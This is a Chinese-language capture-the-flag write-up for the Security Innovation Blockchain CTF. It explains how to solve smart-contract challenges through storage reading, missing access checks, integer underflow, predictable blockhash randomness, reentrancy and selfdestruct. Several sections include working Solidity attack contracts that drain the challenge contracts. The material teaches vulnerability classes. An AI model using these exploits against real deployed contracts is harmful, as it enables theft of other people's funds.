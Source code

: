 ```yaml
---
title: "【Writeups】Security Innovation Blockchain CTF"
date: 2019-06-07 00:00:00
categories:
- [security, writeups]
tags:
- ctf
- security
- writeups
- blockchain
---
```


## Donation

這題是簽到題  
就只是讓我們呼叫合約裡面的這個函式 `withdrawDonationsFromTheSuckersWhoFellForIt`  

## Lock Box

這題有個 `private` 的 `pin` 變數，但是 `private` 只是代表那個變數沒有 `getter` 函式，把合約的狀態抓下來就看光光啦  
使用 [`web3.eth.getStorageAt`](https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-getstorageat) 這個函式  
父合約的變數會在子合約的變數的前面  
所以 position 0 的位址是 `authorizedToPlay`，而 position 1 的位址就是 `pin`  
變數在 storage 裡面怎麼擺的可以參考這篇 [Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Piggy Bank

這題直接呼叫 `collectFunds` 就好了  
只有 `PiggyBank` 的 `collectFunds` 有 `onlyOwner`，`CharliesPiggyBank` 的 `collectFunds` 沒有 `onlyOwner`  

## SI Token Sale

這題的 `purchaseTokens` 沒有用 SafeMath，也沒有檢查 `_value` 要大於 `feeAmount`  
先轉個 `0.000001` 給合約，這樣 `0.000001 - 0.00001` 就會 underflow 變成很大的數字，就得到了超多的 token  
然後再用 `refundTokens` 就可以半價把 token 換成 ether 錢錢了

## Secure Bank

`SecureBank` 的 `withdraw` 和 `MembersBank` 的 `withdraw` 其中的 `_value` 參數形態不一樣  
他們會被看成是不一樣的函式，所以會有兩個不一樣的型態 `withdraw` 可以呼叫  
而 `MembersBank` 的 `withdraw` 沒有檢查是不是本人，所以就直接把 contract creator 的錢領走

## Lottery

這題要猜 `entropy^entropy2` 的值，猜到就可以拿走裡面的錢錢

`entropy = blockhash(block.number)`，但是我們沒辦法知道這個 block 的 blockhash，因為這個 block 還沒算完  
但這樣寫不會有錯誤，只是出來的值會是 `0`  
既然 `entropy = 0` 那就只剩 `entropy2`，而 `entropy2` 是根據 `msg.sender` 來的  
所以我們可以直接算出 `_seed` 的值  
可以直接用 [remix](https://remix.ethereum.org) 寫個簡單的 smart contract 幫我們算那個值，然後利用 `event` 來印出那個值 ( 當 print 用 )  

```solidity
pragma solidity ^0.5.9;

contract test {
    event Log(bytes32 value);
    
    function go () public {
        emit Log(keccak256(abi.encodePacked(msg.sender)));
    }
}
```

或是直接寫一個攻擊合約，去呼叫 `play` 函式  
記得要先把這個合約加到 `authorizedToPlay`，如果是 gas 不夠就調高 gas limit 吧

```solidity
pragma solidity ^0.5.9;

import "./challenge.sol";

contract hack {
    function exploit(address payable _target) public payable {
        Lottery target = Lottery(_target);

        bytes32 entropy2 = keccak256(abi.encodePacked(this));
        uint256 seeds = uint256(entropy2);

        target.play.value(msg.value)(seeds);

        msg.sender.transfer(address(this).balance);
    }
}
```

## Trust Fund

這題是經典的 reentrant attack  

```solidity
pragma solidity ^0.5.9;

contract TrustFund {
    function withdraw() external {}
}

contract hack {
    address target = 0xd297ab1c9653295BdE4f6b2e32574Ac5DD994997;
    uint count = 10;

    function () external payable {
        if (count > 0) {
            count--;
            TrustFund trust = TrustFund(target);
            trust.withdraw();
        }
    }

    function exploit () public {
        TrustFund trust = TrustFund(target);
        trust.withdraw();
    }
    
    function withdraw () public {
        msg.sender.transfer(address(this).balance);
    }
}
```

## Heads or Tails

這題跟 Lottery 很像，不過用的是上一個 block 的 blockhash  
那就寫個攻擊合約去呼叫 `play`，就可以算出一樣的 `entropy`  
給 `0.1 ether` 能賺 `0.05 ether`，所以玩個 20 次就把錢全部撈出來啦  
記得要寫 `fallback` 函式才能接錢進來呀 ( 我這裡卡超久der )

```solidity
pragma solidity ^0.5.9;

contract HeadsOrTails {
    function play(bool _heads) external payable {}
}

contract hack {
    address target = 0xf8583ccB9900615e0b8304A16539EBFD96c2B0af;

	function () external payable {}

    function exploit () public payable {
        bytes32 entropy = blockhash(block.number - 1);
        bool coinFlip = (entropy[0] & '\x01') == '\x01';

        HeadsOrTails heads = HeadsOrTails(target);

		for (uint i = 0; i < 20; i++) {
			heads.play.value(0.1 ether)(coinFlip);
		}

        msg.sender.transfer(address(this).balance);
    }
}
```

## Record Label

這題的題目很長，主要的邏輯就是你領錢的時候會被 `royalties` 抽成，`manager` 會抽成 80 趴的錢錢  
所以如果直接呼叫 `withdrawFundsAndPayRoyalties` 就可以拿到 `0.2 ether`，`royalties` 抽走 `0.8 ether`，這題就解掉了 ( 題目合約 `balance = 0` )  
不過正確的解法 ( 我全都要 ) 應該是找出 `_manager` 的地址，然後呼叫 `addRoyaltyReceiver` 把 `receiverToPercentOfProfit` 這個 mapping 中 `_manager` 的 percent 覆寫成 0  
這樣去領錢就不會被抽成了

## Slot Machine

這題的題目很短，就一個 `fallback` 函式  
但是第一行限制一次只能匯款 `1 szabo` ( `0.000001 ether` )  
目標是要讓這個合約的 balance 大於等於 `5 ether`，他就會把所有錢錢都給你  
其中一個不透過 `fallback` 給錢的方法就是用 `selfdestruct`  
`selfdestruct` 就是把合約清除掉，在被清除掉之前，這個合約可以把他的錢錢匯款給一個帳戶，而這個匯款的動作不會經過 `fallback` 函式  
寫一個攻擊合約，並給他 `5 ether`，讓他自我毀滅，並在毀滅之前把 `5 ether` 匯款給題目合約

```solidity
pragma solidity ^0.5.9;

contract hack {
    function exploit () public payable {
        selfdestruct(address(0x22f616f6b95e23efa8FBBAE44BeeC05890E12A4E));
    }
}
```

---

1. [https://f3real.github.io/tag/ethereum.html](https://f3real.github.io/tag/ethereum.html)
2. [https://xz.aliyun.com/t/2759](https://xz.aliyun.com/t/2759)
